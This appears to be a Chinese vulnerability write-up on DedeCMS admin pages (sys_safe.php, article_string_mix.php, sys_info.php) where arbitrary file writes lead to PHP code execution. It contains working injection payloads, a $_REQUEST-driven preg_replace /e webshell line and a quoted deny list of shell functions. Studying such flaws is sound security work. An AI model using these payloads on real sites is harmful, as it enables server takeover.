

# 任意文件写入

  

## 直接写进去之因地制宜序列化绕过

  

`fwrite()`函数本身并没有什么危险，但如果参数可控就会带来 **恶意写入** 的问题。

  

搜索`fwrite()`得到`sys_safe_php`中有

  


  

有两个参数，

- `$fp` 打开文件`$safeconfigfile` 也就是`/safe/inc_safe_config.php";`

- `$configstr`，往上翻可以看到是由 `$faqs`经过一系列消杀得到的，而`faqs`又是一个数组，由`question`和`answer`两个参数构成。

  

接下来是弄清楚这是个什么文件。直接访问（登录了的情况下），会显示


  

如果还不够显而易见我们就对**问题**和**答案**随便输入什么，burp抓包会看见清楚的`question`和`answer`参数。

  

so the next is

  

研究代码：

  

```php

$safeconfigfile = DEDEDATA."/safe/inc_safe_config.php";

  

    //保存问答数组

    $faqs = array();

    for ($i = 1; $i <= count($question)-1; $i++)

    {

        $val = trim($question[$i]);

        if($val)

        {

            $faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));

            $faqs[$i]['answer'] = stripslashes(trim($answer[$i]));

        }

    }

    //print_r($question);exit();

    $configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";

    $configstr = "<"."?php\r\n".$configstr."?".">\r\n";

    $fp = fopen($safeconfigfile, "w") or die("写入文件 $safeconfigfile 失败，请检查权限！");

    fwrite($fp, $configstr);

    fclose($fp);

    ShowMsg("修改配置成功！","sys_safe.php");

    exit;

```

  

**截取重要片段**

  

- 对`question`的处理：用`trim`将`$val`中字符两侧的空白字符移除，再用- `str_replace()`函数将 `$val`中的`'`换成`"`，作为`$faqs['question']`的值。

- 对`answer`的处理：先用`trim`将`answer`进行删除两侧空白，再用`stripslashes()`函数删除反斜杠`\`，作为`$faqs['answer']`的值。

  

**接下来是序列化和执行语句的构成。**

  
  
  

- `$configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";`。序列化，那个点是是 PHP 中的“追加赋值”运算符，它将右侧表达式的值附加到左侧变量的末尾。

  - 这一句也相当于`$configstr = $configstr . "\$safe_faqs = '".serialize($faqs)."';\r\n";`

  
  

- `$configstr = "<"."?php\r\n".$configstr."?".">\r\n";`。将增加序列化字符的`$configstr`进行拼接

  

- `"<"."?php 和 ?".">" `是为了避免字符串中直接包含 `<?php` 和 `?>` 而导致的语法问题。通过将这两部分字符串拆分，在字符串拼接时避免了这个问题。

  
  

**总结一下**就是，`$question`两侧不能有空白字符、`'`会被替换成`"`，而`$answer`除了删空格，就是删`\`。而`$configstr`后面追加序列化的`$faqs`之后组装成一个可执行的php语句。

  
  

举一个例子：

  

```php

<?php

  

$question = "123'";//这个单引号不写也是ok的，只是为了测试功能。

$answer = "';phpinfo();//";

$faqs = array();

  

$val = trim($question);

if($val)

    {

        $faqs['question'] = str_replace("'","\"",stripslashes($val));

        $faqs['answer'] = stripslashes(trim($answer));

    }

  

echo '$faqs:';

var_dump($faqs);

  

echo '<br>line---------<br>';

  

//print_r($question);exit();

$configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";

$configstr = "<"."?php\r\n".$configstr."?".">\r\n";

  

echo '序列化$faqs:';

var_dump(serialize($faqs));

  

$ec = "result='".serialize($faqs)."';";

  

echo '<br>line----------<br>';

echo '$ec:';

var_dump($ec);

  

?>

```

  

结果：

```txt

$faqs:array(2) { ["question"]=> string(4) "123"" ["answer"]=> string(14) "';phpinfo();//" }

line---------

序列化$faqs:string(67) "a:2:{s:8:"question";s:4:"123"";s:6:"answer";s:14:"';phpinfo();//";}"

line----------

$ec:string(77) "result='a:2:{s:8:"question";s:4:"123"";s:6:"answer";s:14:"';phpinfo();//";}';"

```

  

如果不行就看`/safe/inc_safe_config.php";`的内容吧。

  

所以根据上面的结果有了构造`question`和`answer`两个参数的思路。

  

- `$question`中增加`'`使之在转化后变成`"`

- `$answer`中增加`'`使之提前闭合，`;phpinfo();//`则写入phpinfo()函数，`//`将后面的字符全部注释掉。

  
  

这样就完成了写入，再次访问就会得到phpinfo()界面。

  

ps（有无单引号）：

```txt

"result='a:2:{s:8:"question";s:4:"123"";s:6:"answer";s:14:"';phpinfo();//";}';"

"result='a:2:{s:8:"question";s:3:"123";s:6:"answer";s:14:"';phpinfo();//";}';"

```

  
  

<hr>

  

## request外部支援

  

依旧是`fwrite()`函数。

`article_string_mix.php`

先看一眼是什么界面



  

没太看懂这个**字符串混淆防采集**，所以查了一下

>字符串混淆是一种通过对代码中的字符串进行变换，使其难以直观理解的技术。这种技术经常被用于防止代码被轻松地分析、理解或者提取。在网页开发中，字符串混淆有时用于防止网页内容被简单的爬虫或采集工具获取。

  
  

接下来看代码，

  
  

```php

<?php

if(empty($dopost)) $dopost = '';

  

if(empty($allsource)) $allsource = '';

else $allsource = stripslashes($allsource);

  

$m_file = DEDEDATA."/downmix.data.php";

  

//保存

if($dopost=="save")

{

    csrf_check();

  

    global $cfg_disable_funs;

    $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';

    foreach (explode(",", $cfg_disable_funs) as $value) {

        $value = str_replace(" ", "", $value);

        if(!empty($value) && preg_match("#[^a-z]+['\"]*{$value}['\"]*[\s]*[(]#i", " {$allsource}") == TRUE) {

            $allsource = dede_htmlspecialchars($allsource);

            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");

        }

    }

  

    $fp = fopen($m_file,'w');

    flock($fp,3);

    fwrite($fp,$allsource);

    fclose($fp);

    echo "<script>alert('Save OK!');</script>";

}

  

//读出

if(empty($allsource) && filesize($m_file)>0)

{

    $fp = fopen($m_file,'r');

    $allsource = fread($fp,filesize($m_file));

    fclose($fp);

}

make_hash();

```

  

同样，只截取重要部分，

  

- `$m_file = DEDEDATA."/downmix.data.php";`要被写入`$allsource`的文件

  

打开该文件就会发现内容就是图片中的文字部分。

  

所以`$allsource`的内容就是写入那个框里的内容。

  

后面这段代码

```php

  

//全局定义

global $cfg_disable_funs;

  

//检查是否存在，不存在就定义

$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';

  

/*使用 explode 函数将 $cfg_disable_funs 字符串按逗号分割成数组，

然后使用 foreach 循环遍历这个数组。

每个循环中的元素赋值给 $value 变量，

并通过 str_replace 去除可能存在的空格。

最后检查 $allsource 中是否包含禁用函数调用：*/

foreach (explode(",", $cfg_disable_funs) as $value) {

    $value = str_replace(" ", "", $value);

    if(!empty($value) && preg_match("#[^a-z]+['\"]*{$value}['\"]*[\s]*[(]#i", " {$allsource}") == TRUE) {

        $allsource = dede_htmlspecialchars($allsource);

        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>");

        }

    }

```

  

看那个报错语句都知道是在做什么了，出现了`$cfg_disable_funs`中的字符，也就是非法函数引用，这个请求就会被毙掉。

  
  

调试中查看`$allsource`真正的值：

  

```txt

<?php

//----------------------------

//以下为手工指定的混淆串

//----------------------------

#start#

#,织梦好，好织梦

#,本文来自织梦

#,织梦内容管理系统

#,dedecms.com

#,copyright dedecms

#,内容来自dedecms

#end#

?>

```

  

而相同的内容是出现在`/downmix.data.php`中，也就是说，将恶意代码通过`$allsource`写入`/downmix.data.php`，再次访问该文件就可以执行。

  
  
  
  

简单在原代码基础上写一个demo

  

```php

<?php

  

$allsource = '123';

  

if(empty($allsource)) {

    $allsource = '';

} else {

    $allsource = stripslashes($allsource);

}

  

global $cfg_disable_funs;

$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';

  

foreach (explode(",", $cfg_disable_funs) as $valueToCheck) {

    $valueToCheck = str_replace(" ", "", $valueToCheck);

  

    if(!empty($valueToCheck) && preg_match("#[^a-z]+['\"]*{$valueToCheck}['\"]*[\s]*[(]#i", " {$allsource}") == TRUE) {

        $allsource = dede_htmlspecialchars($allsource);

        die(DedeCMS提示：当前页面中存在恶意代码！<pre>{$allsource}</pre>);

    }

}

?>

```

  
  

对`$allsource`的值进行修改，如果出现了违禁词，500黑屏。

  
  

所以考虑另一条路<br>

<hr>

通过REQUST方式

>$_REQUEST 是 PHP 中一个超全局变量，用于收集 HTML 表单提交的数据，也可以收集 URL 中的数据。它包含了 $_GET、$_POST 以及 $_COOKIE 的内容。

  

写入`article_string_mix.php`的内容

  

```php

$a = $_REQUEST['v'];

@preg_replace("/123/e", $a, "1234567");

```

  

- `preg_replace` 函数使用参数 `$a` 替换字符串 `"1234567"` 中的匹配项。

- `/123/e` 中的 `123` 是一个简单的正则表达式，它匹配字符串中的 `123`。

- 当使用 `e` 修饰符时，`preg_replace` 会将替换字符串视为 PHP 代码，并将其执行。

  

belike:

  


  
  

然后就去访问`/downmix.data.php?v=phpinfo();`，得到phpinfo。（php版本高于5.6就不会成功）

  

或者用HackBar传入post body `v=phpinfo();`也行。

belike

  
  

补充一些，后面有个`article_template_rand.php`，和这个一样的模板。

  

<hr>

  

# 直接写入之单引号逃逸

  
  

## code浏览

  

`sys_info.php`

  

```php

<?php

$configfile = DEDEDATA.'/config.cache.inc.php';

  

//更新配置函数

function ReWriteConfig()

{

    global $dsql,$configfile;

    if(!is_writeable($configfile))

    {

        echo "配置文件'{$configfile}'不支持写入，无法修改系统配置参数！";

        exit();

    }

    $fp = fopen($configfile,'w');

    flock($fp,3);

    fwrite($fp,"<"."?php\r\n");

    $dsql->SetQuery("SELECT `varname`,`type`,`value`,`groupid` FROM `#@__sysconfig` ORDER BY aid ASC ");

    $dsql->Execute();

    while($row = $dsql->GetArray())

    {

        if($row['type']=='number')

        {

            if($row['value']=='') $row['value'] = 0;

            fwrite($fp,"\${$row['varname']} = ".$row['value'].";\r\n");

        }

        else

        {

            fwrite($fp,"\${$row['varname']} = '".str_replace("'",'',$row['value'])."';\r\n");

        }

    }

    fwrite($fp,"?".">");

    fclose($fp);

}

  

//保存配置的改动

if($dopost=="save")

{

    if(!isset($token)){

        echo 'No token found!';

        exit;

    }

  

    if(strcasecmp($token, $_SESSION['token']) !== 0){

        echo 'Token mismatch!';

        exit;

    }

    foreach($_POST as $k=>$v)

    {

        if(preg_match("#^edit___#", $k))

        {

            $v = cn_substrR(${$k}, 1024);

        }

        else

        {

            continue;

        }

        $k = preg_replace("#^edit___#", "", $k);

        $dsql->ExecuteNoneQuery("UPDATE `#@__sysconfig` SET `value`='$v' WHERE varname='$k' ");

    }

    ReWriteConfig();

    ShowMsg("成功更改站点配置！", "sys_info.php");

    exit();

}

//增加新变量

else if($dopost=='add')

{

    if(!isset($token)){

        echo 'No token found!';

        exit;

    }

  

    if(strcasecmp($token, $_SESSION['token']) !== 0){

        echo 'Token mismatch!';

        exit;

    }

    if($vartype=='bool' && ($nvarvalue!='Y' && $nvarvalue!='N'))

    {

        ShowMsg("布尔变量值必须为'Y'或'N'!","-1");

        exit();

    }

    if(trim($nvarname)=='' || preg_match("#[^a-z_]#i", $nvarname) )

    {

        ShowMsg("变量名不能为空并且必须为[a-z_]组成!","-1");

        exit();

    }

    $row = $dsql->GetOne("SELECT varname FROM `#@__sysconfig` WHERE varname LIKE '$nvarname' ");

    if(is_array($row))

    {

        ShowMsg("该变量名称已经存在!","-1");

        exit();

    }

    $row = $dsql->GetOne("SELECT aid FROM `#@__sysconfig` ORDER BY aid DESC ");

    $aid = $row['aid'] + 1;

    $inquery = "INSERT INTO `#@__sysconfig`(`aid`,`varname`,`info`,`value`,`type`,`groupid`)

    VALUES ('$aid','$nvarname','$varmsg','$nvarvalue','$vartype','$vargroup')";

    $rs = $dsql->ExecuteNoneQuery($inquery);

    if(!$rs)

    {

        ShowMsg("新增变量失败，可能有非法字符！", "sys_info.php?gp=$vargroup");

        exit();

    }

    if(!is_writeable($configfile))

    {

        ShowMsg("成功保存变量，但由于 $configfile 无法写入，因此不能更新配置文件！","sys_info.php?gp=$vargroup");

        exit();

    }else

    {

        ReWriteConfig();

        ShowMsg("成功保存变量并更新配置文件！","sys_info.php?gp=$vargroup");

        exit();

    }

}

  

make_hash();

include DedeInclude('templets/sys_info.htm');

```

  

简单浏览一遍，除了在更新配置的地方使用`str_replace("'",'',$row['value'])`进行对`'`的替换过滤，新增变量有着对非法字符的检查外，其实并没有特别的检查。

  

并且看到了明显的

```php

fwrite($fp,"<"."?php\r\n");

//...省略

fwrite($fp,"?".">");

```

  

有执行语句。

  

<hr>

  

我们再去看`/config.cache.inc.php`的内容：


  

## payload

  

已经了解写入机制和写入结果后，考虑payload。

  

有些地方需要一点**绕过**，有些地方可以**直接写入**。

  

**直接写入**：

  

比如`$cfg_ddimg_width = 240;`和`$cfg_ddimg_height = 180;`，没有`'`的包围。

在网站页面修改**缩略图默认宽度**为`phpinfo();`，访问`/config.cache.inc.php`就会得到界面。

  

<hr>

  

**绕过**

  

绕过`'`也简单，使用`\`。

举例：

```php

<?php

$a = 'abcd\';

$b = ';phpinfo();/*efg';

?>

```

  

依照这个例子

  

在 **主页链接名**写入`\`，在**网站发信EMAIL**处写`;phpinfo();/*`，就会使`phpinfo()`成功逃逸，进而可以被执行。